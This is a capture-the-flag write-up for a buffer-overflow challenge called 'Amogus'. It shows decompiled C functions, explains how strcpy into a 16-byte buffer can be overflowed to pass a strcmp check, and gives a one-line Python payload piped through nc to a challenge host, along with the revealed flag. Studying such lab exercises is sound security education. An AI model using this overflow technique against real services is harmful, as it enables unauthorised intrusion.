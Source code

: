 1. Analyse the file with Ghidra. main() shows this:
```int main(void) {
        long in_FS_OFFSET;
        char local_28[24];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        puts("Welcome to Amogus.\n");
        display();
        puts("Enter your name:\n");

        __isoc99_scanf("%s", local_28);
        gameplay(local_28);

        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                __stack_chk_fail();  // Stack canary check
        }

        return 0;
}```

gameplay() shows this:
```void gameplay(char *param_1) {
        int iVar1;
        FILE *_stream;
        long in_FS_OFFSET;
        char local_68[16];
        char local_58[16];
        char local_48[64];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        __builtin_strncpy(local_68, "DEAD", 5);
        strcpy(local_58, param_1);
        iVar1 = strcmp(local_58, "ALIVE");

        if (iVar1 == 0) {
                _stream = fopen("flag.txt", "r");

                if (_stream == NULL) {
                printf("Error in opening the flag file. Flag file might be missing :(\n"));
                } else {
                fgets(local_48, 0x2d, _stream);
                puts("How are you still alive?!\n");
                puts(local_48);
                }
        } else {
                iVar1 = strcmp(local_58, "DEAD");

                if (iVar1 != 0) {
                puts("ERROR. ERROR. AMONG US NOT RESPONDING.");
                exit(0);
        }

        puts("You are a crewmate. \n");
        FUN_00401160(1);
        puts("You go to Medbay to finish your tasks.\n");
        FUN_00401160(1);
        puts("Suddenly, you hear a gunshot... The world goes dark. \n");
        FUN_00401160(1);
        puts("GAME OVER. YOU LOST :("));
    }

    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }

    return;
}```

2. From gameplay(), the condition for printing flag.txt is ```iVar1 == 0```.
Since ```iVar1 = strcmp(local_58, "ALIVE") == 0```, our payload needs to include "ALIVE", and since local_58 is a 16-byte buffer, we need to include more characters aside from "ALIVE" to fill it up.

3. Use 16 bytes of "A" to fill up local_58, and include "ALIVE":

```└─$ python -c 'print("A"*16 + "ALIVE\x00")' | nc 43.205.113.100 8292
    Welcome to Amogus.

    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⢀⣀⣤⣤⣤⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⠟⠉⠉⠉⠉⠉⠉⠉⠙⠻⢶⣄⠀⠀⠀⠀   
            ⣾⡏⠀⠀⠀⠀⠀⠀     ⠙⣷⡀⠀    
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣸⡟⠀⣠⣶⠛⠛⠛⠛⠛⠛⠳⣦⡀⠀⠘⣿⡄    
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⢠⣿⠁⠀⢹⣿⣦⣀⣀⣀⣀⣀⣠⣼⡇⠀⠀⠸⣷⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⡏⠀⠀⠀⠉⠛⠿⠿⠿⠿⠛⠋⠁⠀⠀⠀⠀⣿    
            ⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⠀  ⢻⡇⠀  
            ⣸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀   ⢸⡇   
    ⠀⠀⠀⠀⠀⠀⠀ ⣿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣧⠀  
    ⠀⠀⠀⠀⠀⠀⠀ ⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣾⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀  ⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⣠⡶⠶⠿⠿⠿⠿⢷⣦⠀⠀⠀⠀⠀  ⣿⠀  
    ⠀⠀⣀⣀⣀⠀⣸⡇⠀⠀⠀⠀⣿⡀⠀⠀⠀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀ ⣿⠀ 
    ⣠⡿⠛⠛⠛⠛⠻⠀⠀⠀⠀⠀⢸⣇⠀⠀⠀⠀⠀⠀⣿⠇⠀⠀⠀⠀⠀ ⠀⣿⠀ 
    ⢻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣼⡟⠀⠀⢀⣤⣤⣴⣿⠀⠀⠀⠀⠀⠀  ⣿⠀ 
    ⠈⠙⢷⣶⣦⣤⣤⣤⣴⣶⣾⠿⠛⠁⢀⣶⡟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡟⠀  
                ⣿⣆⡀⠀⠀⠀⠀⠀⢀⣠⣴⡾⠃    
                ⠀⠀⠈⠛⠻⢿⣿⣾⣿⡿⠿⠟⠋⠁⠀⠀   
    Enter your name:

    How are you still alive?!

    shaktictf{ch@ng3d_fat3_wh3n_I_s@w_r3d_v3nt_}```